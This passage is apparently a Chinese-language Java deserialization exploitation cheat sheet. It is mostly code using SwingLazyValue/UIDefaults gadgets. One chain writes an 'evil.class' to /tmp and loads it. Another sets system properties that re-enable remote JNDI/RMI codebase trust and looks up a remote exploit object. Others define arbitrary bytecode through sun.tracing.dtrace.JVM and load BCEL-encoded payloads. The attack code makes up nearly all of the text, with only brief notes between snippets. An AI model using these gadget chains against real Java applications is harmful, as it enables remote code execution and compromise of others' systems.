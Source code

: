 写 class

```plain
byte[] bytes = Files.readAllBytes(new File("evil.class").toPath());
            SwingLazyValue swingLazyValue= new SwingLazyValue("java.lang.System","setProperty",new Object[]{(Object)"jfr.save.generated.asm",(Object)"true"});
       SwingLazyValue swingLazyValue = new SwingLazyValue("jdk.jfr.internal.Utils","writeGeneratedASM",new Object[]{(Object)"/tmp/evil/",bytes});

打三次。开启 jfr.save.generated.asm，写 class，在加载。
```

#### 二、高版本开启 jndi 出网，在利用。

```plain
//        三、利用 RMIConnector/JdbcRowSetImpl/javax.naming.InitialContext 打 jndi，高版本先打下面配置，开启出网。(利用 java.lang.System.setProperty 开启配置)。
        Object useCodebaseOnly = new SwingLazyValue("java.lang.System","setProperty",new Object[]{(Object)"java.rmi.server.useCodebaseOnly",(Object)"false"});
        Object rmi = new SwingLazyValue("java.lang.System","setProperty",new Object[]{(Object)"com.sun.jndi.rmi.object.trustURLCodebase",(Object)"true"});
/       Object ldap = new SwingLazyValue("java.lang.System","setProperty",new Object[]{(Object)"com.sun.jndi.ldap.object.trustURLCodebase",(Object)"true"});
        UIDefaults uiDefaults = new UIDefaults();
        uiDefaults.put("a", new SwingLazyValue("javax.naming.InitialContext", "doLookup", new Object[]{"rmi://127.0.0.1:1099/remoteExploit8"}));
```

还可以高版本打 tomcat 的 el 表达式

#### 三、类加载

```plain
Method invoke = MethodUtil.class.getMethod("invoke", Method.class, Object.class, Object[].class);
        Class<?> JVM = Class.forName("sun.tracing.dtrace.JVM");
        Method defineClass = JVM.getDeclaredMethod("defineClass", ClassLoader.class, String.class, byte[].class, int.class, int.class);
        defineClass.setAccessible(true);
        Constructor<?> declaredConstructor = JVM.getDeclaredConstructor();
        declaredConstructor.setAccessible(true);
        Object jvm = declaredConstructor.newInstance();
        Object[] ags = new Object[]{invoke, new Object(), new Object[]{ defineClass,jvm, new Object[]{jvm.getClass().getClassLoader(),evil,bcode,0,bcode.length}}};

        SwingLazyValue swingLazyValue = new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", ags);
//          第二次直接调用加载的方法
                SwingLazyValue swingLazyValue1 = new SwingLazyValue(evil, null, new Object[0]);
打两次，第一次加载，第二次调用
```

还有一些 becl 什么都是同理

```plain
//        ##加载 becl，第一次加载字节码，第二次调用
        JavaClass javaClass = Repository.lookupClass(calc.class);
        String payload = "$$BCEL$$"+ Utility.encode(javaClass.getBytes(), true);
        Method _main = JavaWrapper.class.getMethod("_main", String[].class);
        Method invoke = MethodUtil.class.getMethod("invoke", Method.class, Object.class, Object[].class);
        Object[] ags = new Object[]{invoke, new Object(), new Object[]{ _main,new JavaWrapper(),new Object[]{new String[]{payload}}}};

        SwingLazyValue swingLazyValue = new SwingLazyValue("sun.reflect.misc.MethodUtil","invoke",ags);
//        SwingLazyValue swingLazyValue = new SwingLazyValue("_main()",null,null);
```

